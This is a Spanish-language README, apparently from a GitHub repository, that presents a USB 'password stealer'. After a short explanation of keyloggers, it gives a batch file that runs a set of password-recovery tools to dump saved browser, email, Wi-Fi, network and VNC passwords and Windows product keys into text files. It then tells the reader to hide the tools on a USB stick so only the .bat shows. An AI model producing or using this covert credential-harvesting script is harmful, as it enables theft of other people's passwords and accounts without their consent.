 
 # USB Para extraer contraseñas de un ordenador
 
La tecnología ha avanzado tanto, que se ha desarrollado una forma de robar o registra información de una manera disimulada en cualquier ordenador. Este método es llamado keylogging, y puede ser beneficioso o malicioso según sea el uso que se le de, ya que si eres de los que descargan programas o introducen en el ordenador dispositivos USB constantemente puedes que seas víctima de esto.

Existen personas que usan este método de forma beneficiosa. Por ejemplo, las empresas usan los keylogger para registrar y ver el avance del trabajo de sus empleados, sin necesidad de estar constantemente pidiendo informes. Esta es una manera de organizarse y optimizar al máximo las labores de oficina. Sin embargo, es un tema tan delicado que solo puede hacerse con el consentimiento del empleado y con ciertas limitaciones para proteger información personal del mismo. [Leer Más](https://es.wikipedia.org/wiki/Archivo_batch) 

<img align="center" height="480" width="1000" alt="GIF" src="https://github.com/ArisGuimera/ArisGuimera/assets/114537444/6d78f6c0-fe7c-40e1-9b0f-dc90c309c956"/>

## 💡 ¿Qué y para qué sirve un USB Keylogger “roba datos” o los llamados “Stealers” de información?
Un keylogger también es conocido como un captador de pulsaciones de teclas o un roba datos. Este es un programa o que se encarga de guardar o registrar todo lo que escribes al utilizar el teclado. Todo lo que recopila inmediatamente lo guarda en un fichero, o también se puede programar para que la información se envíe por internet a algún correo electrónico diariamente o semanal de manera automática.

Hay dos formas para poder hacer esto. La primera es el keylogger software (el más usado), que forman parte de malware como los troyanos o rootkits. Este puede ser enviado por un correo o por cualquier otro archivo descargado del internet. El segundo es el keylogger hardware (el cual no es muy habitual), que consiste en infectar con el programa un disco extraible USB e introducirlo en el ordenador el que se deseen extraer los datos.

No esta demás decir, que no siempre un keylogger puede ser una malware, perjudicial para tu PC, ya que hay algunas empresas que ofrecen este tipo de servicios para que el cliente tenga cierto control de sus ordenadores cuando es utilizado por otros, y también es muy usado por los padres para monitorear lo que hacen sus hijos.

<img align="center" height="524" width="1000" alt="GIF" src="https://github.com/ArisGuimera/ArisGuimera/assets/114537444/cae4f52a-29ce-4d41-af99-e88315468fe8"/>

## 📚 Ejemplo

En este ejemplo, podrás extraer las contraseñas almacenadas en los navegadores web, también extraerás todas las contraseñas de internet, correos, y la key del sistema operativo. Primero tendrás que descargar este repositorio, o sino, descargar solo los programas que te interesan y luego haces lo siguiente:

Abres un bloc de notas y pegas este codigo, dependiendo que programas quieres ejecutar y lo guardas como archivo .bat

```bash
start mspass.exe /stext mspass.txt
start mailpv.exe /stext mailpv.txt
start iepv.exe /stext iepv.txt
start pspv.exe /stext pspv.txt
start PasswordFox.exe /stext passwordfox.txt
start OperaPassView.exe /stext OperaPassView.txt
start ChromePass.exe /stext ChromePass.txt
start Dialupass.exe /stext Dialupass.txt
start netpass.exe /stext netpass.txt
start WirelessKeyView.exe /stext WirelessKeyView.txt
start BulletsPassView.exe /stext BulletsPassView.txt
start VNCPassView.exe /stext VNCPassView.txt
start OpenedFilesView.exe /stext OpenedFilesView.txt
start ProduKey.exe /stext ProduKey.txt
start USBDeview.exe /stext USBDeview.txt
```

Por ultimo solo copia los archivos descagados y ocultalos en alguna usb, solo dejando el .Bat

## 📚 Nota Importante
Algo a destacar es que todos los archivos deben estar en una misma carpeta, incluyendo el ".Bat" De lo contrario no funcionará
